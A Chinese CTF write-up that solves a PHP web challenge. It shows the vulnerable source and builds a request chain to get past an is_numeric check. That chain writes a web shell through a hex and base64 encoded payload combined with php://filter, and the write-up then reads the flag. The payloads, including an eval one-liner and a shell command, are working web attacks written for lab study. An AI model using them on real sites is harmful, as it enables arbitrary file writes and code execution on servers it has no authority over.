 源码:

```
<?php

highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
?> 
```

is_numeric在php5的环境中，是可以识别十六进制的。

先把一句话编码成十六进制传给v2:
`<?php eval($_POST[1]);?>`变为`0x3c3f706870206576616c28245f504f53545b315d293b3f3e`

构造:

```
?v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e&v3=1.php
v1=hex2bin 
```

但是没有成功写入，参考了大佬的博客，得知这里的版本可能是php7，这一串十六进制不能被is_numeric()识别成数字，v2必须由纯数字构成。

这里用大佬的payload:

```
$a='<?=`cat *`;';
$b=base64_encode($a);  
$c=bin2hex($b);      
输出   5044383959474e6864434171594473

带e的话会被认为是科学计数法，可以通过is_numeric检测。
大家可以尝试下去掉=和带着=的base64解码出来的内容是相同的。因为等号在base64中只是起到填充的作用，不影响具体的数据内容。 
```

同时因为经过substr处理，所以v2前面还要补两位任意数字，这里使用00

最终构造:
`v2=005044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php post: v1=hex2bin`

访问1.php，查看源码得到flag

## web104、106
